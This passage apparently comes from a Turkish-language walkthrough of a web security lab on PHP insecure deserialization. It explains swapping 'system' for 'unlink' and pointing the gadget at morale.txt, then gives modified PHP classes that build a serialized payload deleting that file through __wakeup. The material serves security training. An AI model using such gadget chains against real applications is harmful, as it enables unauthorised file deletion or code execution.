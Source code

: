 ![Untitled](0x0D-e7c75cda4af14d9f8c7d57729ec14f3a/Untitled-18.png)

Bizden istenen şey `morale.txt` dosyasının silinmesi olduğu için id değeri yerine bu dosyanın yolunu veriyoruz, ayrıca system ifadesi yerine de unlink kullanmalıyız. Güncel kodumuz aşağıdaki gibidir;

```php
class CustomTemplate {
    private $default_desc_type;
    private $desc;
    public $product;

    public function __construct($desc_type='HTML_DESC') {
        $this->desc = new DefaultMap("unlink");//new Description();
        $this->default_desc_type = $desc_type;
        // Carlos thought this is cool, having a function called in two places... What a genius
        $this->build_product();
    }

    public function __sleep() {
        return ["default_desc_type", "desc"];
    }

    public function __wakeup() {
        $this->build_product();
    }

    private function build_product() {
        $this->product = new Product($this->default_desc_type, $this->desc);
    }
}

class Product {
    public $desc;

    public function __construct($default_desc_type, $desc) {
        $this->desc = $desc->$default_desc_type; // $DefaultMap->id
    }
}

```
